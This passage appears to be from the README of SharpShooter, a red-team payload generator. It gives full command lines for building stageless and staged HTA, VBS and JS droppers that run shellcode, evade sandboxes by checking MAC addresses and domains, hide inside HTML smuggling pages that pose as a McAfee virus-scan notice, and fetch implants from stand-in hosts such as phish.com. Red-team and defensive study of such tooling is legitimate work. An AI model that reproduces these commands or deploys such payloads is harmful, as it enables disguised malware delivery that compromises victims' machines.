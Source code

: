 ### Stageless HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Create a stageless HTA payload targeting version 2/3 of the .NET framework. This example will create a payload named foo.hta in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by checking for known virtual MAC addresses. A HTML smuggling payload will also be generated named foo.html in the output directory. This payload will use the example McAfee virus scan template.

### Staged VBS ###

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

This example creates a staged VBS payload that performs both Web and DNS delivery. The payload will attempt to retrieve a GZipped CSharp file that executes the shellcode supplied as a CSharp byte array in the csharpsc.txt file. The CSharp file used is the built-in SharpShooter shellcode execution template. The payload is created in the output directory named foo.payload and should be hosted on http://www.foo.bar/shellcode.payload. The same file should also be hosted on the bar.foo domain using PowerDNS to serve it. The VBS file will attempt to key execution to the CONTOSO domain and will be embedded in a HTML file using the HTML smuggling technique with the McAfee virus scanned template. The resultant payload is stored in the output directory named foo.html.

### Custom CSharp inside VBS ###

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

This example demonstrates how to create a staged JS payload that performs web delivery, retrieving a payload from http://www.phish.com/implant.payload. The generated payload will attempt sandbox evasion, and attempt to compile the retrieved payload which requires mscorlib.dll and System.Windows.Forms.dll as DLL references. The Main method in the MDSec.SharpShooter namespace will be executed on successful compilation.

### Creation of a Squiblytwo VBS ###

```
SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBS smuggled COM stager that uses the Outlook.CreateObject() COM method as a primitive to execute wmic.exe to execute a hosted stylesheet. The --awl parameter is not used by defaults to wmic.
